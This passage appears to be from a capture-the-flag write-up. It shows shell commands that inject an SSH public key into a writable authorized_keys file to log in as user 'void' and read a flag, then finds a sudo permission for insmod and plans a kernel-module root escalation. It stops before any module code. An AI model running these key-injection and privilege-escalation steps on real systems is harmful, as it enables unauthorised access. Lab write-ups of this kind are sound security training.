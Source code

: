 Then look for users:

```bash
ls /home/
```

We found the user `void` and the folder `/home/void/.ssh/` is **writable**.

---

## 🔑 Step 8 – SSH Key Injection

On our machine we generate an ssh public key:

```bash
ssh-keygen -t rsa -b 4096 -f mykey
cat mykey.pub
```

We then copy the content and inject it into the target:

```bash
echo "PASTE_YOUR_SSH_PUBLIC_KEY_HERE" > /home/void/.ssh/authorized_keys
```

Then connect via SSH:

```bash
ssh -i mykey void@10.30.02.20
```

🎉 You now have user access.

```bash
cat /home/void/flag.txt
```

---

## 👑 Step 9 – Escalating to Root with a Kernel Module

when we check what we can do with sudo:

```bash
sudo -l
```

We see permission to run `/sbin/insmod`, which loads a `.ko` kernel module.
> `.ko` files are **Linux kernel modules** — they are pieces of code that can be dynamically loaded into the Linux kernel to add or extend functionality (like drivers, features, or system-level behaviors).

The target machine already has `make` and kernel headers, so we’ll compile the module **directly on the target**.

---

## 🛠️ Step 10 – Creating the Kernel Module on the Target
